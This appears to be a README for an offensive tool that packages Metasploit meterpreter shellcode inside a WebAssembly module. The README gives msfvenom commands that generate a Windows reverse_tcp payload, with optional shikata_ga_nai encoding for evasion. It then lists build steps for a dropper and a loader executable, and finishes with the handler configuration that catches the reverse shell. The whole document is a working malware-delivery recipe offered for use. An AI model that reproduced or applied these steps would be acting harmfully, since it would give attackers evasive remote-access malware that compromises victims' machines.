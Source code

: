 # Metasploit WASM Executor

## Dependencies
```sh
cargo install wasm-pack
```

## Install `Wasm2Wat` Windows
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-windows.tar.gz
mkdir wabt && tar -xzf wabt.tar.gz -C wabt --strip-components 1
```

## Install `Wasm2Wat` Linux
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-ubuntu-20.04.tar.gz
mkdir wabt && tar -xzf wabt.tar.gz -C wabt --strip-components 1
```

- First, we need to get some shellcode from Metasploit
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f rust # -e x86/shikata_ga_nai -i {number of iterations} # OPTIONAL (For heavier encoding) 
```

- Copy the output from that command into `./wasm_dropper/src/lib.rs` 
- Name it `WASM_MEMORY_BUFFER` and change the const to be static
- `WASM_MEMORY_BUFFER` should have the following signature:

```rust
static WASM_MEMORY_BUFFER: [u8; WASM_MEMORY_BUFFER_SIZE] = [
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,
    ...
];
```

## Build the wasm binary
```sh
cd wasm_dropper && wasm-pack build --release && cd ..
```

## Now convert the wasm binary from .wasm to .wat using `wasm2wat`
```sh
./wabt/bin/wasm2wat.exe ./target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
```

## Now build the Loader
```sh
cd wasm_loader && cargo build --release && cd ..
```

## The Loader Binary is now in `./target/release/wasm_loader.exe`

## Make sure we have a Metasploit handler running
```sh
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
set EnableStageEncoding true
exploit -j
```

